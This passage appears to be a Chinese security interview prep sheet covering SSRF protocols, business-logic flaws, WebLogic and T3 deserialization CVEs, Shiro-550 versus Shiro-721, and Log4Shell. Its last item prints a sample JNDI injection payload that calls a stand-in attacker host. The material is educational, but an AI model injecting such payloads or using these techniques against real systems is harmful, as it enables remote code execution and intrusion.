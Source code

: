 
## 11、讲一下 SSRF 的基本原理？可利用的协议有哪些？
- SSRF：攻击者让服务器主动请求任意地址，内网探测、绕过防火墙/认证。
- 可利用协议：
  1. http/https：访问内网web服务
  2. file：读取本地文件
  3. gopher：构造任意TCP数据包，打Redis/MySQL
  4. dict/ftp/ldap/tftp：各类服务探测或利用

---

## 12、说下业务逻辑漏洞有哪些类型？
- 权限相关：水平越权（访问他人数据）、垂直越权（低角色操作高权限功能）
- 认证相关：弱密码、密码重置缺陷、验证码可爆破、邮箱可篡改
- 流程相关：金额/库存篡改、跳过关键流程、条件竞争（抢购、优惠券）
- 数据相关：批量枚举用户信息、篡改包状态码

---

## 13、Weblogic 有什么可利用的漏洞？
- 反序列化漏洞：T3/IIOP协议（CVE-2015-4852/2018-2628/2019-2725/2020-2551）
- SSRF漏洞：UDDI组件（CVE-2014-4210）
- 未授权访问：console弱口令、后台未授权
- RCE漏洞：console组件未授权远程代码执行（CVE-2020-14882/14883）

---

## 14、什么是 T3 协议，有什么作用，有什么特征？
- 作用：Weblogic专用高性能RMI协议，客户端与服务器、集群间传输序列化对象。
- 特征：
  - 数据包头`t3 12.2.1`或`HELO`
  - Java对象序列化体
  - 默认端口7001
- 与漏洞关系：T3协议传输序列化数据，易触发反序列化漏洞

---

## 15、Apache Shiro 有什么漏洞，550 和 721 有什么区别？
- Shiro主要漏洞：身份认证绕过与反序列化RCE
- Shiro-550（CVE-2016-4437）：RememberMe密钥硬编码，攻击者可伪造cookie，低难度RCE（影响1.2.4及以下）
- Shiro-721（CVE-2019-12422）：密钥可配置但若泄露可Padding Oracle攻击，难度大于550
- 区别：550只要默认密钥，721需已知密钥和Padding Oracle链

---

## 16、log4j2 有什么漏洞？攻击特征是什么？
- Log4Shell（CVE-2021-44228）：JNDI注入，日志字符串中`${jndi:ldap://...}`触发远程代码加载执行。
- 攻击特征：所有能被log4j2记录的输入点（如HTTP头、参数等）出现`${jndi:...}`，即有风险。
- 典型payload：`${jndi:ldap://attacker.com/x}`

---